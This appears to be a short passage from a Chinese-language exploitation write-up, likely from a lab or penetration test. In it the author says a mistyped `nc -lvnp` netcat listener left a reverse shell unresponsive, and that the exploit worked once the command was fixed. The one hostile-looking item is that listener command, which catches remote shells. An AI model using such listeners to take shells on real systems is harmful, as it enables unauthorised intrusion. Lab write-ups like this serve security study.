
#### 3.代码小bug
在监听时将`nc -lvnp`代码 输入错误，导致执行shell时无响应，因此一直在验证第二个payload是否出现错误，耽误时间，后续发现代码问题并改正后成功使用漏洞。